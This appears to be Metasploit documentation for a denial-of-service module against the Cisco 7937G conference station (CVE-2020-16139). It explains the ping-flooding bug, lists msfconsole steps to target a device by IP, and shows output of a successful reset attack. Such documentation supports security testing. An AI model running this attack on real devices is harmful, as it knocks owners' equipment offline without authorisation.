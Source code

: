 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against SCCP-1-4-5-5 and SCCP-1-4-5-7.
 
### Description
 
This module exploits a bug in how the conference station handles executing a ping via it's web interface. By repeatedly executing the ping function without clearing out the resulting output, a DoS is caused that will reset the device after a few minutes. 

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access on the device (default configuration).
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/CVE-2020-16139`
  5. Do: `set RHOST 192.168.1.10`
  6. Do: `run`
  7. The conference station should become nonresponsive and then power cycle itself.

## Scenarios

### Cisco 7937G SCCP-1-4-5-7
```
[*] Starting server...
[*] 192.168.110.209 - Sending DoS packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```

